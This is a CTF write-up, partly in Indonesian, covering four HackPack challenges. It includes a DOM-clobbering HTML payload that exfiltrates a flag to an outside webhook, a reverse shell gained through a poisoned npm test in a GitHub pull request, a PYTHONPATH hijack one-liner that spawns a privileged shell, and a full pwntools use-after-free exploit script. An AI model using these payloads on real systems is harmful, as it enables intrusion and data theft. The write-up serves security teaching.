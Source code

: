 Wiki world - web
===
## Description

Can you alpha test out our newest note-taking [website](https://wikiworld.cha.hackpack.club/)? (If you find anything, please report it to us using  `nc cha.hackpack.club 8702`)

Also unrelatedly, our website admin is really fond of the wiki-world extension, he uses it all the time, even on his work computer.

I should probably get him to stop using it tho, it hasn't been approved by IT yet.

Author: Sohom (Sodium#8285)

NOTE: we recommend you try to develop a exploit locally using the provided source code before attempting the exploit on the challenge servers. Feel free to contact the admins if you have a exploit that works locally, but not on the challenge servers.

## Exploit

For this challenge, we have provided the source code, which can be downloaded at the following link:

:::info
https://drive.google.com/file/d/1H-wGeUFgk8jvBK3XO8NV55pzs1FEn7fy/view?usp=share_link
:::

The source code for the challenge reveals that the admin bot utilizes a custom web browser extension.

![](https://i.imgur.com/zUM8U2b.png)

![](https://i.imgur.com/sM2UErh.png)

After reviewing the extension's source code above as shown in image above, we discovered that it retrieves its configuration from the window object. This vulnerability can be exploited using a technique called DOM clobbering, which is described in detail at the following URL:

:::info
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering
:::

By utilizing this technique, we were able to change the value of window.config and manipulate the behavior of the extension.

The following payload can be used to exploit this vulnerability:

```html 
<a id=config><a id=config name=WIKI_REGEX href="BLOB:.*?(flag\{.*?\})"></a>
<a id=config><a id=config name=WIKIPEDIA_SERVER href="https://webhoo.site"></a>
```

This payload modifies the values of `config.WIKI_REGEX` and `config.WIKIPEDIA_SERVER` to match the flag and send it to the attacker's server.

Next, we return to the challenge web page and copy the payload into the text area, as shown in the image below:

![](https://i.imgur.com/6bhyR0b.png)

We retrieve the URL and paste it into the bot server as shown in the following image:

![](https://i.imgur.com/bsCsc2G.png)

![](https://i.imgur.com/D4y65hZ.png)

After that, we can see the flag in our webhook server:

![](https://i.imgur.com/CeD5qnE.png)

pully - web
===
## Description
Do you like open-source and want to work on it? Please check out our new project and contribute to it: https://github.com/hackpackctf/pully

Author: Igibek
Discord: kigibek

## Recon
![](https://i.imgur.com/EMUSc9Z.png)

We are given a GitHub repository with a GitHub action workflow. We can fork the repository and trigger the GitHub action by pulling the forked repository.

In the following build, we can see that the workflow will echo the flag, but it might not be the real flag because the workflow on the server could be different from the GitHub repository. At the bottom of the image, we can see that it uses the npm test command. We can gain RCE by uploading a test that contains a reverse shell.

![](https://i.imgur.com/qIO2XW8.png)

## Exploit
To exploit this challenge, we need to gain RCE by uploading a test containing a reverse shell, and then find the flag in the directories "/home/runner/work/*".

First, we fork the GitHub repository.

![](https://i.imgur.com/zme5mFt.png)

Then, we modify our fork to execute RCE.

![](https://i.imgur.com/TQX9r3V.png)

After that, we pull our forked repository to the main repository.

![](https://i.imgur.com/KfFvYoV.png)

Now we have a reverse shell from the server.

![](https://i.imgur.com/Mh1OJQw.png)

Now we need to execute the grep command to search for the keyword 'flag' recursively in directories. The grep command is a Unix tool used for searching through text or files for specific patterns. In this case, we are searching for the pattern 'flag' in directories. The output of the grep command contains the flag, which is shown in the image below.

![](https://i.imgur.com/JF4rUod.png)

ezila - misc (privilage escalation with setuid binary)
===
Kita bisa melakukan privilage escalation dengan merubah python environment dan membuat python meng-import package yang didalamnya terdapat payload kita.

echo 'def choice(foo):import os; os.execl("/bin/sh", "sh", "-p")' > /tmp/random.py && PYTHONPATH=/tmp ./run-ezila

number store - pwn
===

bugnya uaf, dengan itu kita bisa leak heap, untuk leak pie yang perlu dilakukan adalah buat chunk lalu delete agar masuk tcache setelah itu generate random number yang bakal nyimpen alamat fungsi generate random, setelah leak pake uaf, karena uafnya cuma bisa ganti 16 byte setelah alamat heap kita gabisa tcache poison tapi kita bisa ganti alamat generate random tadi pake alamat yang kita mau dan kalo kita panggil lagi kita manggil alamat yang kita ganti

```python
#!/usr/bin/env python3

from pwn import *

exe = 'chal'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('/usr/lib/libc.so.6', checksec=False)
context.log_level = 'debug'

cmd = '''
c
'''

if args.REMOTE:
    p = remote('cha.hackpack.club', 41705)
else:
    p = process()

### EXPLOIT HERE ###

def add_num(idx, name, num):
    p.sendlineafter(b': ', b'1')
    p.sendlineafter(b'(0-9): ', f'{idx}'.encode())
    p.sendlineafter(b'name:', name)
    p.sendlineafter(b'number:', num)

def del_num(idx):
    p.sendlineafter(b': ', b'2')
    p.sendlineafter(b'(0-9): ', f'{idx}'.encode())

def edit_num(idx, num):
    p.sendlineafter(b': ', b'3')
    p.sendlineafter(b'(0-9): ', f'{idx}'.encode())
    p.sendlineafter(b'number: ', f'{num}'.encode())

def show_num(idx):
    p.sendlineafter(b': ', b'4')
    p.sendlineafter(b'(0-9): ', f'{idx}'.encode())

def rand_num():
    p.sendlineafter(b': ', b'6')


add_num(0, b'a', b'1')
del_num(0)
# show_num(0)
# # heap leak
# heap = u64(p.recvline(0).ljust(8, b'\0'))
# heap = eval(hex(heap)+ '000')
# print(hex(heap))

rand_num()
show_num(0)
# pie leak
p.recvline(0)
pie = eval(p.recvline(0)) - 0x1257
info(hex(pie))

win = elf.symbols.printFlag + pie

edit_num(0, win)
rand_num()

# gdb.attach(p, cmd)

p.interactive()
```